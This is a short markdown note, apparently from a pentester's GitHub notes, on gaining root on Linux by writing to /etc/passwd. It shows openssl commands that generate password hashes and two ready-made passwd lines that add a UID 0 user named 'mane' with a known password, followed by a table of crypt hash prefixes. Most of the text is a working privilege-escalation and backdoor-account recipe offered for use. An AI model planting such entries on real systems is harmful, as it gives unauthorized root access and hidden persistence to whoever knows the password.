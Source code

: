 # Edit passwd to login

Try to edit `/etc/passwd` to create user and login without modify `/etc/shadow` files.

Write by manesec.

# 0x0 Generate password 

```bash
$openssl passwd -crypt mane
sMH3ZTiGRR4L6

$openssl passwd -1 -salt manehack manemane
$1$manehack$rerzZaiHYZZXpZsGcJF8n1
```

# 0x1 Edit `/etc/passwd`

```
mane:sMH3ZTiGRR4L6:0:0:root:/root:/bin/bash

# password is manemane
mane:$1$manehack$rerzZaiHYZZXpZsGcJF8n1:0:0:root:/root:/bin/bash

```

# More on Crypto on `/etc/passwd`

```
$1$	       MD5
$2a$       Blowfish
$5$	       SHA-256
$6$	       SHA-512
$sha1$     SHA1crypt
$y$	       Yescrypt
$gy$       Gost-yescrypt
$7$	       Scrypt
$argon2i$  Argon2
```

